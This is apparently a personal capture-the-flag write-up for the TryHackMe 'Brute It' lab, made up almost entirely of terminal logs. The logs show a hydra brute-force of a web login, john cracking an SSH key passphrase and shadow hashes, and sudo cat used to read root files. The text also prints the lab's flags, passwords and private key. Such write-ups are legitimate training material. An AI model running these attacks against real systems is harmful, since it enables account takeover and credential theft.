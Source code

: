 #+TITLE: https://tryhackme.com/room/bruteit

* nmap
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat nmap/scan.nmap
# Nmap 7.91 scan initiated Tue Nov 24 22:15:09 2020 as: nmap -sC -sV -oA nmap/scan 10.10.75.72
Nmap scan report for 10.10.75.72
Host is up (0.099s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 24 22:15:33 2020 -- 1 IP address (1 host up) scanned in 24.08 seconds

#+end_src

* hydra
[[file:./images/screenshot-27.png]]
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ hydra -l admin -P ~/.cache/yay/rockyou/rockyou.txt 10.10.75.72 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -v
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-24 22:11:08
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.75.72:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel
[VERBOSE] Page redirected to http://10.10.75.72/admin/panel/
[80][http-post-form] host: 10.10.75.72   login: admin   password: xavier
[STATUS] attack finished for 10.10.75.72 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-24 22:11:34

#+end_src

* id_rsa
[[file:./images/screenshot-26.png]]
#+begin_src bash

 -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----

#+end_src

* john
- password
  : rockinroll
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john forjohn --wordlist=/home/m/.cache/yay/rockyou/rockyou.txt
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (/home/m/Desktop/haxxx/ctf/thm/boxes/bruteit/id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:05 DONE (2020-11-24 22:26) 0.1742g/s 2498Kp/s 2498Kc/s 2498KC/s *7¡Vamos!
Session completed

#+end_src

* user.txt
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ ssh -i id_rsa john@10.10.75.72
The authenticity of host '10.10.75.72' (10.10.75.72) cant be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.72' (ECDSA) to the list of known hosts.
Enter passphrase for key id_rsa:
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Nov 25 03:34:48 UTC 2020

  System load:  0.0                Processes:           103
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 44%                IP address for eth0: 10.10.75.72
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$
john@bruteit:~$ clear
john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt
THM{a_password_is_not_a_barrier}
john@bruteit:~$

#+end_src

* root.txt
#+begin_src bash

john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

#+end_src

* unshadow
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ unshadow passwd.hash shadow.hash > unshadowed
┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ cat unshadowed
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:0:0:root:/root:/bin/bash
daemon:*:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:*:2:2:bin:/bin:/usr/sbin/nologin
sys:*:3:3:sys:/dev:/usr/sbin/nologin
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/usr/sbin/nologin
man:*:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:*:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:*:8:8:mail:/var/mail:/usr/sbin/nologin
news:*:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:*:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:*:13:13:proxy:/bin:/usr/sbin/nologin
www-data:*:33:33:www-data:/var/www:/usr/sbin/nologin
backup:*:34:34:backup:/var/backups:/usr/sbin/nologin
list:*:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:*:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:*:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:*:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:*:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:*:102:106::/home/syslog:/usr/sbin/nologin
messagebus:*:103:107::/nonexistent:/usr/sbin/nologin
_apt:*:104:65534::/nonexistent:/usr/sbin/nologin
lxd:*:105:65534::/var/lib/lxd/:/bin/false
uuidd:*:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:*:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:*:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:*:109:1::/var/cache/pollinate:/bin/false
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:1000:1000:THM Room:/home/thm:/bin/bash
sshd:*:110:65534::/run/sshd:/usr/sbin/nologin
john:$6$iODd0YaH$BA2G28eil/ZUZAV5uNaiNPE0Pa6XHWUFp7uNTp2mooxwa4UzhfC0kjpzPimy1slPNm9r/9soRw8KqrSgfDPfI0:1001:1001:john,,,:/home/john:/bin/bash
#+end_src

* root_password
#+begin_src bash

┌──[ m ~/Desktop/haxxx/ctf/thm/boxes/bruteit ]
└──╼ john --show unshadowed
root:football:0:0:root:/root:/bin/bash

1 password hash cracked, 2 left

#+end_src
